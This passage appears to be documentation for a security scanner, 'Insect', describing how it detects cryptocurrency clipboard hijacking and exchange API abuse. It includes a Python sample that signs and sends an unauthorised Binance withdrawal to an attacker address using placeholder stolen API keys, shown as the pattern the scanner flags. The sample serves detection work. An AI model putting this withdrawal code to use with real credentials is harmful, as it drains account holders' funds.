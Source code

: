 **What Insect Detects:**
- Identifies clipboard monitoring for cryptocurrency addresses
- Flags address replacement patterns (clipboard hijacking)
- Detects cryptocurrency address regex patterns used for interception
- Identifies stealer-like behavior patterns

**Why This is Critical:**
- Clipboard hijacking redirects cryptocurrency payments to attacker addresses
- Users often don't notice address changes, leading to successful theft
- This is a common attack vector for cryptocurrency theft malware

### Exchange API Abuse

**Vulnerable Code:**

```python
import hmac
import hashlib
import requests

def abuse_exchange_apis():
    # Stolen exchange API credentials
    binance_api_key = "stolen_api_key_123"
    binance_secret_key = "stolen_secret_key_456"
    
    # Unauthorized withdrawal
    withdraw_params = {
        "coin": "BTC",
        "address": "1AttackerAddress123",
        "amount": "1.0",
        "timestamp": int(time.time() * 1000)
    }
    
    # Sign the malicious request
    query_string = "&".join([f"{k}={v}" for k, v in withdraw_params.items()])
    signature = hmac.new(binance_secret_key.encode(), query_string.encode(), hashlib.sha256).hexdigest()
    
    # Execute unauthorized withdrawal
    response = requests.post(
        "https://api.binance.com/sapi/v1/capital/withdraw/apply",
        params={**withdraw_params, "signature": signature},
        headers={"X-MBX-APIKEY": binance_api_key}
    )
```

**What Insect Detects:**
- Identifies suspicious cryptocurrency exchange API usage
- Flags patterns consistent with unauthorized withdrawals
- Detects exchange API authentication abuse
- Identifies withdrawal and transfer operations using stolen credentials

**Why This is Critical:**
- Exchange APIs can control large amounts of cryptocurrency
- Stolen API keys enable direct fund theft
- Exchange API abuse can drain entire trading accounts
